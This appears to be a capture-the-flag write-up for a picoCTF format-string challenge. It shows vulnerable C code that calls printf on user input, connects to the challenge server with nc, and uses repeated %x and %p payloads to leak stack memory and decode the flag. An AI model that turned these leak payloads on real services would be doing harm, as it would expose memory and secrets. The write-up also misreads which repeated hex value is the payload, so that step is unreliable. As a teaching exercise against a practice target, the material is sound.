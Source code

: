 The source code tell us that we can use formatting string to solve this problem.

```c
printf("Give me your order and I'll read it back to you:\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your order: ");
printf(buf);
printf("\n");
fflush(stdout);

printf("Bye!\n");
fflush(stdout);
```

First, I use `%s` to get the char array data. However, I can only get the string "Here's your order:."
```sh
% nc mimas.picoctf.net 49829
Give me your order and I'll read it back to you:
%s%s%s%s
Here's your order: Here's your order: (null)(null)
Bye!
```

Then I try to use `%x` for getting information in hexadecimal representation.
```c
%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n%x\n
```
I get
```
4021180 b1a42a00 0 1b79880 a347834 4e65e8c0 b1833e60 b1a584d0 1 4e65e990 0 0 6f636970 6d316e34 33317937 3431665f 30386531 7 b1a5a8d8 7 74307250 6c797453 9 b1a6bde9 b183c098 b1a584d0 0 4e65e9a0 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 6e5c7825 656c6c00 6d726f66 6e697274 0 0 0 
```

<img width="720" alt="截圖 2024-07-21 上午11 13 58" src="https://github.com/user-attachments/assets/b2109360-37e0-4724-8eff-06c1e402181d">

The repeated string "6e697274" means "%x\n" so we can know that we entered too many "%x\n" in it. We can also discover that the flag might in it due to the word "pico"

<img width="720" alt="截圖 2024-07-21 上午11 17 34" src="https://github.com/user-attachments/assets/aadc7aa2-b751-4562-bfe7-d3e605eb01a5">


After the string process, it seems not work. Then try to use `%p` which means pointer and be represented as hex.

<img width="720" alt="截圖 2024-07-21 上午11 21 09" src="https://github.com/user-attachments/assets/1398c883-14d1-40e6-9c8c-3ca06edd1597">

The result is more clear. Let use remove the useless numbers. 

We will get :
```
0x7b4654436f636970 0x355f31346d316e34 0x3478345f33317937 0x31655f673431665f 0x7d383130386531
```
```
1e8018}_f14g_e17y13_4x44n1m41_5picoCTF{
```
Then try to reoder them, you will get:

<img width="720" alt="截圖 2024-07-21 上午11 31 17" src="https://github.com/user-attachments/assets/6543ba73-884c-455b-8105-b1c58413530a">
